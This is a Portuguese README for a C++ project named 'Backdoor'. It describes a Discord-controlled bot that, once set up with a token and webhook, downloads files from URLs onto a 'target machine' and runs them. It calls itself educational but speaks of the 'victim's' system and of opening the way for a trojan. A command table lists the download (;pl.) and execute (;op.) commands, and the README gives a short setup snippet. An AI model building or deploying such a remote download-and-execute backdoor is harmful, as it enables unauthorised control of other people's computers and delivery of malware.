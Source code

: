 # Backdoor

Esse projeto é uma API pública para fins educacionais que se assemelha a um backdoor.  
Você pode utilizá-la junto ao seu programa para realizar downloads e executar arquivos na máquina alvo.  
Isso pode abrir portas para um trojan, mas o objetivo deste projeto não é esse.  

## Instalação das Dependências

Este programa requer **DPP** e **cURL**.  
No Arch Linux, por exemplo, você pode instalá-los facilmente com o AUR:

```sh
yay -S dpp curl
```

    #include "network.hpp"
    
    int main() {
        std::string token = "SEU_TOKEN_AQUI";
        const std::string webhook_url = "SEU_WEBHOOK_AQUI";
        const std::string version = "1.3";

    network program(token, webhook_url, version);
    program.MAIN();
    program.perfomBot();

    return 0;
}

OBS: O código acima é um exemplo e pode precisar de ajustes para funcionar corretamente.

ATENÇÃO: Se o sistema operacional da vítima não for Windows, o comando de execução do arquivo baixado precisará ser alterado.
Atualmente, ele usa o comando start do Windows. Para modificar, edite a linha 64 do arquivo network.hpp.

Comandos Básicos

Os comandos do bot são acionados pelo prefixo ;.
Segue a lista de comandos disponíveis:
Comando	Função
;shutDown	    Desliga o bot (não a máquina).
;deBugger on	Ativa o modo debug.
;deBugger off	Desativa o modo debug.
;version	    Mostra a versão do bot.
;add <grupo>	Adiciona o bot a um grupo específico.
;pl.<tipo>	    Baixa um arquivo da internet (png, exe, gif, etc.).
;op.<tipo>	    Abre um arquivo baixado.
;credits	    Exibe os créditos do projeto.
;devBot	        Link para configurar o bot no Discord.


Exemplo de Uso:

Para baixar um arquivo .png, envie:

;pl.Png https://example.com/imagem.png

Para abrir o arquivo baixado:

;op.Png
